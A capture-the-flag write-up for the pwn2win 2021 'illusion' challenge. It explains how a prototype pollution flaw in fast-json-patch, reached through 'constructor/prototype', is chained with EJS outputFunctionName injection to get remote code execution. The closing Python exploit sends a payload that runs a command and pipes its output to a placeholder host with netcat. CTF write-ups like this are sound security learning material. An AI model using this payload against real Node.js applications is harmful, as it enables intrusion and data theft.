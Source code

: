 ```yaml
---
title: illusion - pwn2win 2021
date: 2021-06-03 18:32:20
author: Sayooj B Kumar
author_url: https://twitter.com/_1nt3rc3pt0r_
categories:
 - CTF
tags:
 - RCE
 - Prototype Pollution
---
```


**tl;dr**

+ Using Prototype pollution vulnerablity in fast-json-patch pollute value in outputFunctionName 
+ Get a shell as the flag can only be obtained using binary file 

<!--more-->

**No. Of Solves:** 78

**Challenge points:** 151

**Solved By:** [1nt3rc3pt0r](https://twitter.com/_1nt3rc3pt0r_), [Captain-Kay](https://twitter.com/captainkay11)

## Challenge Description

Laura just found a website used for monitoring security mechanisms on Rhiza's state and is planning to hack into it to forge the status of these security services. After that she will desactivate these security resources without alerting government agents. Your goal is to get into the server to change the monitoring service behavior.

**Source Code:** [here](source-code.zip)

## Analysis

We have a list of service and status in `index.js`.

```
let services = {
    status: "online",
    cameras: "online",
    doors: "online",
    dome: "online",
    turrets: "online"
   }
   app.use("/static", express.static(__dirname + "/static"));
   app.get("/", async (req, res) => {
       const html = await ejs.renderFile(__dirname + "/templates/index.ejs", {services})
       res.end(html)
   })
```

End point `/change_status` is used to update status of services ,this is done with help of package called `fast-json-patch`. 

```
app.post("/change_status", (req, res) => {
    console.log("changing status")
    let patch = []
    console.log(req.body);
    Object.entries(req.body).forEach(([service, status]) => {

        if (service === "status"){
            res.status(400).end("Cannot change all services status")
            return
        }

        patch.push({
            "op": "replace",
            "path": "/" + service,
            "value": status
        })
    });
```

`fast-json-patch` initially had vulnerablity regarding *Prototype pollution* and it was said to be fixed in the current version that we use in challenge.

```
if (banPrototypeModifications && key == '__proto__') {
                throw new TypeError('JSON-Patch: modifying `__proto__` prop is banned for security reasons, if this was on purpose, please set `banPrototypeModifications` flag false and pass it to this function. More info in fast-json-patch README');
            }
```

Patch was not good enough to prevent Prototype pollution as they check for existance of `__proto__` there still exist a chance for Prototype pollution using `prototype` [Check Here](https://github.com/Starcounter-Jack/JSON-Patch/pull/262)



## Solution

Now we can overwrite values as we need  using `constructor/prototype/<variable>`.

### RCE using Prototype pollution

we have ejs as template engine and injecting code to `outputFunctionName` in `ejs.js` can lead to RCE [Check Here](https://github.com/mde/ejs/issues/451) 


```
      if (opts.outputFunctionName) {
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
      }
```
## Exploit Script

```
import requests

TARGET_URL = 'http://illusion.pwn2win.party:23121'
head={"Authorization":"Basic YWRtaW46cWpoeXFwZWJ4ZW12dnF1cg=="}// change

r=requests.post(TARGET_URL + '/change_status',json={"constructor/prototype/outputFunctionName":"a; return process.mainModule.require('child_process').execSync('./readflag|nc <ip> <port>'); //"},headers=head)
print(r.text)

r=requests.get(TARGET_URL,headers=head)
print(r.text)

```

## Flag

```
CTF-BR{d0nt_miX_pr0totyPe_pol1ution_w1th_a_t3mplat3_3ng1nE!}
```







 


